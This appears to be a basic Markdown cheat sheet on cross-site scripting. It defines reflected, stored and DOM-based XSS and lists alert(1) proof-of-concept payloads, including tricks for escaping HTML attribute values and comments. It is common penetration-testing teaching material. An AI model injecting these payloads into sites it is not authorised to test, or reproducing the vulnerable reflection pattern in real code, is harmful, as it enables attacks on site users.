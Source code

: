 # XSS Cheat Sheet (Basic)

## Introduction
Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into websites. There is 3 types of XSS Attack:
- Reflected XSS

    Attack where the malicious script runs from another website through the web browser    
- Stored XSS
  
    Stored attacks are those where the injected script is permanently stored on the target servers
- DOM-Based XSS

    A type of XSS that has payloads found in the DOM rather than within the HTML code.

## Where to find
This vulnerability can appear in all features of the application. If you want to find Dom-based XSS, you can find it by reading the javascript source code.

## How to exploit
1. Basic payload
```html
<script>alert(1)</script>
<svg/onload=alert(1)>
<img src=x onerror=alert(1)>
```

2. Add ' or " to escape the payload from value of an HTML tag
```html
"><script>alert(1)</script>
'><script>alert(1)</script> 
```

* Example source code
```html
<input id="keyword" type="text" name="q" value="REFLECTED_HERE">
```

* After input the payload
```html
<input id="keyword" type="text" name="q" value=""><script>alert(1)</script>
```

3. Add --> to escape the payload if input lands in HTML comments.
```html
--><script>alert(1)</script>
```

* Example source code
```html
<!-- REFLECTED_HERE --> 
```

* After input the payload
```html
<!-- --><script>alert(1)</script> -->
```
